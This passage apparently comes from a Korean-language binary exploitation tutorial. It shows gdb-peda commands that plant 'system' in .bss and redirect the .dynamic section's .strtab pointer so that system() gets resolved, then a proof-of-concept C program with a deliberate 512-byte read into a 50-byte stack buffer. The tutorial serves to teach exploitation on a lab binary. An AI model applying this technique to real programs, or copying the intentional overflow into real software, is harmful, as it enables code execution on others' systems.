 ```
gdb-peda$ elfheader .bss
.bss: 0x804a01c - 0x804a020 (data)

gdb-peda$ set *(0x804a01c + 0x50 + 0x1a)=0x74737973
gdb-peda$ set *(0x804a01c + 0x50 + 0x1a + 0x4)=0x00006d65

gdb-peda$ x/24wx 0x804a01c
0x804a01c <completed.7209>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a07c:	0x00000000	0x00000000	0x79730000	0x6d657473
```

.dynamic 영역에 .strtab을 가리키는 포인터가 존재하는데 이 부분을 .bss 영역으로 덮어쓴다.

```
gdb-peda$ x/24wx 0x8049f14 + 0x44
0x8049f58:	0x0804821c
gdb-peda$ set *(0x8049f14 + 0x44) = 0x804a01c + 0x50
```

system에 breakpoint를 걸고 continue를 하면 system 함수가 호출되는 것을 확인할 수 있다.

```
gdb-peda$ b system
Breakpoint 2 at 0xf7e41940
gdb-peda$ c
Continuing.
...
[-------------------------------------code-------------------------------------]
   0xf7e41936:	ret    
   0xf7e41937:	mov    esi,esi
   0xf7e41939:	lea    edi,[edi+eiz*1+0x0]
=> 0xf7e41940 <system>:	sub    esp,0xc
   0xf7e41943 <system+3>:	mov    eax,DWORD PTR [esp+0x10]
   0xf7e41947 <system+7>:	call   0xf7f2428d
   0xf7e4194c <system+12>:	add    edx,0x1756b4
   0xf7e41952 <system+18>:	test   eax,eax
```

## **Proof of Concept**
```c
// Vuln Code
// gcc -fno-stack-protector -o rop rop.c -m32
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    read(0, buf, 512);
}
  
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```
